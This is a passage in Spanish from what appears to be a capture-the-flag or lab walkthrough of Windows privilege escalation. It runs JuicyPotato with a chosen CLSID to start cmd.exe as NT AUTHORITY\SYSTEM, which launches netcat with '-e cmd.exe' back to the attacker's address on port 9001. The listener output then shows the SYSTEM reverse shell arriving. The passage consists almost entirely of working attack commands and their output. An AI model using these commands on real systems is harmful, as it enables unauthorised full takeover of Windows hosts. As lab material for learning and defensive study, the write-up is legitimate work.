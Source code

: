 `Ejecutamos` el `JuicyPotato`, los `CLIDS` los podemos mirar en esta `web` [https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/)

```
C:\Windows\Temp\Privesc>JuicyPotato.exe -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.16.35 9001" -t *
JuicyPotato.exe -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.16.35 9001" -t *
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1337
....
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

`Recibimos` la `shell` como `nt authority\system`

```
# nc -nlvp 9001 
listening on [any] 9001 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.186.242] 50611
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

